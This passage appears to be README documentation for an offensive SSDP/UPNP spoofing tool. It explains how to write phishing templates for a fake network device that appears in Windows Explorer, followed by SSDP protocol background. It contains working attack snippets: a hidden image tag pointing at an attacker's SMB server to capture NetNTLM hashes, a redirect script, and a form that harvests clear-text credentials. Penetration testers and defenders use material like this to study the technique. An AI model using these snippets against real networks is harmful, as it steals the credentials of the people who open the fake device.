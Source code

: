 Creating your own templates is easy. Simply copy the folder of an existing template and edit the following files:
- `device.xml`:         Here is where you will define what the device looks like inside Windows Explorer.
- `present.html`:       This is the phishing page displayed when a target opens the evil device. Craft anything you like here. Note that Python's string template will parse this, so you will need to use `$$` in place of `$` anywhere to escape the template engine.
- `service.xml`:        Not yet implemented. May be needed for more complex UPNP spoofing in the future.

In your phishing page (`present.html`), use variables like the following for additional functionality:

```
# The following line will initiate a NetNTLM challenge/response using the IP address of either the interface
# you provide or an optionally specified IP address:
<img src="file://///$smbServer/smb/hash.jpg" style="display: none;" />

# The following will leverage optionally specified URL redirection. This is handy when used with
# basic authentication to redirect to a valid site. This line is built in to the microsoft-azure template:
    <script>
	    var url = "$redirectUrl";
    	    if (url != "") {
	    	document.location = url;
	    }
    </script>


# If using an HTTP form to capture clear-text credentials, use code like the following. Also any template doing a
# POST request will automatically support the '-u' parameter to redirect after the POST completes.  The tool will
# monitor POSTs to this URL for credentials:
<form method="POST" action="/ssdp/do_login.html" name="LoginForm" autocomplete="off">
```

The tool currently only correctly creates devices for the UPNP 'rootdevice' device type, although it is responding to the SSDP queries for all devices types. If you know UPNP well, you can create a new template with the correct parameters to fufill requests for other device types as well. There is still a lot to explore here with exploiting specific applications and the way they expect and leverage UPNP devices.

# Technical Details
Simple Service Discovery Protocol (SSDP) is used by Operating Systems (Windows, MacOS, Linux, IOS, Android, etc) and applications (Spotify, Youtube, etc) to discover shared devices on a local network. It is the foundation for discovering and advertising Universal Plug & Play (UPNP) devices.

Devices attempting to discover shared network resources will send a UDP multicast out to 239.255.255.250 on port 1900. The source port is randomized. An example request looks like this:
```
M-SEARCH * HTTP/1.1
Host: 239.255.255.250:1900
ST: upnp:rootdevice
Man: "ssdp:discover"
MX: 3
```
